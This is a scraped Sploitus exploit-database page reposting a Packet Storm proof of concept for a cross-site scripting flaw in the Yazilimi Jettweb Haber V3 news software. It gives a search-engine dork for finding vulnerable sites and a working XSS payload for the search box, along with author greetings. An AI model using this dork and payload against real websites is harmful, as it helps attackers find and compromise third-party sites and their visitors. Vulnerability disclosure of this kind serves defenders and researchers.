 ```yaml
---
title: Yazilimi Jettweb 3 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170525&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-18
fetch_date: 2025-10-04T04:06:05.667270
---
```


# Yazilimi Jettweb 3 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Yazilimi Jettweb 3 Cross Site Scripting

2023-01-17 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170525
====================================================================================================================================
| # Title : yazılımı jettweb Haber V3 XSS Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 68.0(32-bit) |
| # Vendor : http://haberv3.proemlaksitesi.net/ |
| # Dork : "yazılımı jettweb" |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] In the search box, we use the payload : <--`<img/src=` onerror=confirm`https://cxsecurity.com/author/indoushka/1/`> --!>

[+] test : https://127.0.0.1/haberv3proemlaksitesinet/

==Greetings to :=========================================================================================================================
| |
| jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm* thelastvvv *Zigoo.eg * moncet |
| |
=========================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)